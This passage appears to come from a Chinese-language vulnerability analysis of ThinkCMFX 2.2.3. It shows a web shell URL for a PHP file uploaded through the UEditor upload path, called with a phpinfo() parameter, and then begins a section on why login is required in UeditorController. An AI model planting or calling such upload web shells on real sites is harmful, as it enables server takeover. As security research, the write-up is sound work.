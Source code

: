 ```
shell 地址: http://atest.test/cms/ThinkCMFX_2.2.3/data/upload/ueditor/20190724/5d3833dcce7e3.php?1=phpinfo(); 
```

![image](img/7c4ed18f1f3812b87a82240429839963.png)

##### 0x04.2 为什么要登录

路径：ThinkCMFX\application\Asset\Controller\UeditorController.class.php 方法：public function _initialize()
